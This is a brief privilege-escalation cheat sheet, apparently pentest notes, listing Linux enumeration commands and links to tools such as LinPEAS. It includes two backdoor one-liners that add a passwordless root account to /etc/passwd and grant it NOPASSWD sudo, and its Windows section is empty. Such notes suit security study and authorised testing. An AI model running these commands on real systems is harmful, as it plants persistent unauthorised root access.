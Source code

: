# Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`<br>
- `find / -perm -u=s -type f 2>/dev/null`<br>
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
- `sudo -V` to check sudo version, which might be vulnerable.<br>
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoer`<br>
- 'groups`<br>
https://gtfobins.github.io/<br>
<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

+ linpeas.sh<br>

**Get Privilege Escalation vectors:**<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows
